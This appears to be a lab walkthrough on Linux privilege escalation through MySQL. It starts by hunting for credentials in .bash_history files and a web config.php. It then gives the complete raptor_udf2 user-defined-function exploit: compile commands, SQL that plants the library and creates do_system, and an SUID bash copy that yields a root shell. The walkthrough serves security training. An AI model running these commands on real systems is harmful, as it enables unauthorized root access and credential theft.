 
Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes.

# Hunting for Database Credentials

We could firstly try to sign in without a password since the default for MySQL root user is blank password using `mysql -u root -p`, but if it didn't work, we might have to try other methods.
### Method 1

First, we should always be checking the **.bash_history** file in our current users home directory, as well as any other users home directory that we have access to.

```bash
cd /home && ls -l
```

If there are multiple profiles in here, try to access all of them. Note that we did not see root’s home profile here because the root home profile is located at /root. Also note that bash history files are hidden so they start with a period [ . ] and can be seen by using **ls -la**.

```bash
cd juggernaut && cat .bash_history
```

### Method 2 

Navigating to /var/www/, we can see that there are a few files here, but ‘config.php’ stands out most of all.

And when we check the file, we can see that it is used to access the MySQL database as root and shows the cleartext username and password.

# Exploitation

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```bash
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit.

These commands are used to create a table with one (BLOB) column. Then we insert the contents of the file specified by `/path/to/file` into the table `foo` and selects all the rows from the table `foo` and writes them to a file called `raptor_udf2.so` in the directory `/usr/lib/mysql/plugin`. Next, we create a MySQL function called `do_system` and specifying the shared library file `raptor_udf2.so`, Finally we get a simple UDF that allows executing system commands from within a MySQL query:

```bash
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```